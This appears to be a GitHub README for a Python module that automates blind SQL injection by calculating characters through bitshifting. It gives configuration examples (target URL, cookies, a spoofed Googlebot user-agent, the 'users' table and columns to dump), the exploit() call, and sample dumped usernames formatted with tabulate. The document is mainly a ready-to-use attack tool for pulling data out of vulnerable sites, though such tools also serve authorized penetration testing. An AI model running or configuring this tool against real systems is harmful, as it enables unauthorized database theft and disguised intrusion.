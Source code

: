# Blind SQL Injection via Bitshifting

This is a module that performs blind SQL injection by using the bitshifting method to **calculate** characters instead of guessing them. It requires 7/8 requests per character, depending on the configuration.

## Usage

```
import blind-sql-bitshifting as x

# Edit this dictionary to configure attack vectors
x.options
```

### Example configuration:

```
# Vulnerable link
x.options["target"] = "http://www.example.com/index.php?id=1"

# Specify cookie (optional)
x.options["cookies"] = ""

# Specify a condition for a specific row, e.g. 'uid=1' for admin (optional)
x.options["row_condition"] = ""

# Boolean option for following redirections
x.options["follow_redirections"] = 0

# Specify user-agent
x.options["user_agent"] = "Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)"

# Specify table to dump
x.options["table_name"] = "users"

# Specify columns to dump
x.options["columns"] = "id, username"

# String to check for on page after successful statement
x.options["truth_string"] = "<p id='success'>true</p>"
```

There's another boolean option that you can specify to make dumping faster:

`x.options["assume_only_ascii"] = 1`

This option makes the module assume that the characters it's dumping are all ASCII. Since the ASCII charset only goes up to `127`, we can set the first bit to `0` and not worry about calculating it. That's a `12.5%` reduction in requests. Testing locally, this yeilded an average speed increase of `15%`. Of course this can cause issues when dumping chars that are outside of the ASCII range. By default, it's set to `0`.

Once configured, call the `exploit()` function:

`x.exploit()`

This returns a 2-dimensional array, with each sub-array containing a single row, the first being the column headers.

Example output:

`[['id', 'username'], ['1', 'eclipse'], ['2', 'dotcppfile'], ['3', 'Acey'], ['4', 'Wardy'], ['5', 'idek']]`

Optionally, your scripts can then harness the [tabulate](https://pypi.python.org/pypi/tabulate) module to output the data:

```
from tabulate import tabulate

data = x.exploit()

print tabulate(data,
               headers='firstrow',  # This specifies to use the first row as the column headers.
               tablefmt='psql')     # Using the SQL output format. Other formats can be used.
```

This would output:

```
+------+------------+
|   id | username   |
|------+------------|
|    1 | eclipse    |
|    2 | dotcppfile |
|    3 | Acey       |
|    4 | Wardy      |
|    5 | idek       |
+------+------------+
```
